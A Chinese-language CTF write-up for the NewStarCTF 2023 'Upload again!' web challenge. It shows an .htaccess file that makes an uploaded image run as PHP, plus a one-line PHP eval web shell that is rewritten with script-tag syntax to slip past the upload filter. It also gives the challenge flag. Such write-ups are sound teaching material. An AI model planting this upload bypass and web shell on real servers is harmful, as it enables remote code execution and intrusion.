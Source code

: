 ```yaml
---
title: NewStarCTF 2023 Upload again!
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，看到如下界面，感觉非常难受

![](https://z1.ax1x.com/2023/10/12/piSIj2Q.png)

先试一下普通的一句话木马 & 改后缀，发现没有任何漏洞可以钻，你使用任何原生支持的 PHP 文件格式都会被阻拦，并报出

```
你打不开的，别试了
```

![](https://z1.ax1x.com/2023/10/12/piSopbq.png)

经过多个文件的测试，发现他**只会**拦截与 PHP 有直接关联的文件（更恰当的说，应该是文件后缀）

于是就想到可以使用 `.htaccess` 来使文件被强制当成 PHP 文件运行，OK，说好了，一拍即合

## 编写 `.htaccess`

我们除了传入 `.htaccess`，后面也会再传入一个图片木马文件 `shell.jpg`，所以我们只需要使得 `shell.jpg` 被当作 PHP 脚本执行即可，如下是 `.htaccess` 文件

```xml
<FilesMatch "shell.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
```

## 编写木马

然后就是我们的 `shell.jpg`

```php
<?
echo "HelloWorld"; // 这个是为了验证是否被运行，可以不写
@eval($_POST['attack']);
?>
```

但当你像这样传入 `shell.jpg` 的时候，靶机就不愿意了

![](https://z1.ax1x.com/2023/10/12/piSomrR.png)

这多半就是 PHP 脚本的开头 `<?` 惹的祸，只要出现了 `<?`，那么就无法上传，包括最原始的 `<?php`，所以我们用第二种写法来编写 `shell.jpg`

```js
<script language="php">
echo "HelloWorld";
@eval($_POST['attack']);
</script>
```

现在再上传，发现上传成功，进入上传地址 `http://e56e35c3-081a-4f17-bcc8-d944d8358293.node4.buuoj.cn:81//upload/shell.jpg`，大大的 **HelloWorld** 就写在上面了

## 攻入靶机

一句话木马的意义就是为了让我们使用蚁剑进行连接，老套路，进入后直接去根目录，就发现了 `this_is_flag` 文件，进入就找到了 Flag `flag{7beaa386-03e2-412d-af48-21b869aa6df6}`